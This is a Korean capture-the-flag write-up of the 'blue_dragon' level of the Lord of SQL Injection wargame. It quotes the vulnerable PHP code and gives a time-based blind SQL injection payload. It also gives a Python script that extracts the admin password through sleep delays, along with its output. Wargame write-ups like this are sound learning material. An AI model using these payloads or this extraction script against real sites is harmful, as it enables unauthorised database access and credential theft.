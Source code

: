 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - blue_dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 용 시리즈의 마지막인 `blue_dragon`이다.  

내가 바보임을 다시 한 번 깨달을 수 있었던 문제였다.  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw=''
--------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

단순히 필터링만 보자면 `'(싱글쿼터)`와 여태까지 싱글쿼터가 필터링이었을 때 사용했던 `\`을 사용하지 못하도록 되어 있다.  

그런데 필터링을 걸어 둔 위치가 좀 다르다.  

쿼리를 실행시킨 후에 필터링을 검사하고 이에 대한 결과를 출력한다.  

그래서 `'`를 사용한다면 쿼리의 결과를 `Hello admin`의 형태로는 확인할 수 없겠지만, 어찌됬든 쿼리가 실행은 되므로 `Time Based Blind SQL Injection`을 사용할 수 있다.  

테스트로 `id=a&pw=' or id='admin' and if(length(pw)>0, sleep(3), 0)#`을 입력 해 보았다.  

그랬더니 약 3초 간 지연 후에 내가 입력 한 쿼리와 함께 `No Hack ~_~`을 출력하는 결과 화면을 볼 수 있었다.  

정상적으로 쿼리가 동작하므로 pw의 길이와 값을 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 0

url = "http://los.rubiya.kr/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php?id=a&pw=' or id='admin' and"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		start = time.time()
		query = url + " if(length(pw) = " + str(i) + ", sleep(3), 0)%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if (time.time() - start) > 3:
		length = i
		break	

print "[+] Found length : ", length

print "[+] Find password"
	
for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + " if(substr(pw, " + str(j) + ", 1) = " + hex(i) + ", sleep(3), 0)%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

내 서버가 너무 느려서 도대체 결과가 안나오길래 쿼리가 잘못된 것인가 고민했었다.  

그런데 학교 다닐 때 쓰던 동아리 서버에서 돌렸더니 너무 잘돌아간다 ㅎㅎ  

서버를 바꾸던가 해야지 원...  

어찌됬건 결과는 다음과 같다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : D
[+] Found 2 : D9
[+] Found 3 : D94
[+] Found 4 : D948
[+] Found 5 : D948B
[+] Found 6 : D948B8
[+] Found 7 : D948B8A
[+] Found 8 : D948B8A0
[+] Found password :  D948B8A0
[+] End
```

역시나 소문자로 입력 해 주면 문제를 풀 수 있다.  

```
?pw=d948b8a0
```

```php
---------------------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw='d948b8a0'
---------------------------------------------------------------------------------------------------

BLUE_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

`BLUE_DRAGON Clear!!`